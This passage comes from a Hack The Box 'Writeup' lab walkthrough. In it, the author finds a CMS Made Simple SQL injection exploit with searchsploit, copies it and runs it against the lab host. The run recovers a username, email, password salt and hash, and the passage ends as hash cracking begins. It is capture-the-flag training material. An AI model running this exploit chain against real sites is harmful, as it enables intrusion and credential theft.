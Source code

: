 ``` bash
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

Nice! Now we can really work with that. First thoughts looking at this - Remote Code execution would be AWESOME... buuut it's authenticated so I'm going to look at the SQL injection vulnerabilities first. We can nix the 1.2.2 version and jump straight into our 2.2.10 version.

We can copy this exploit using the `-m` flag in `searchsploit`!

``` bash
┌──(root💀bradman)-[/home/brad/HTB/Writeup]
└─# searchsploit -m php/webapps/46635.py -o sploit.py
  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /opt/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/brad/HTB/Writeup/sploit.py


┌──(root💀bradman)-[/home/brad/HTB/Writeup]
└─# ls
sploit.py  nmap
```

I would HIGHLY recommend reading through the code and getting a fairly solid understanding of how it works and what it does before actually executing - I'd say I spent about 30 minutes reading this before actually executing this on MY machine.
(also this code is freaking cool.... reading it is.. meh.. but seeing it work and then re-reading it is super cool, literally feels like a 90's hacker movie... let's be honest... even modern hacker movies :/ )

<br>

# Exploitation
---

We run the exploit code in the following manner and wait like 5 minutes then get the below result:

``` bash
┌──(root💀bradman)-[/home/brad/HTB/Writeup]
└─# python2 sploit.py -u http://10.10.10.138/writeup/

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

We got a password and the salt... let's combine these and run it through `hashcat`:
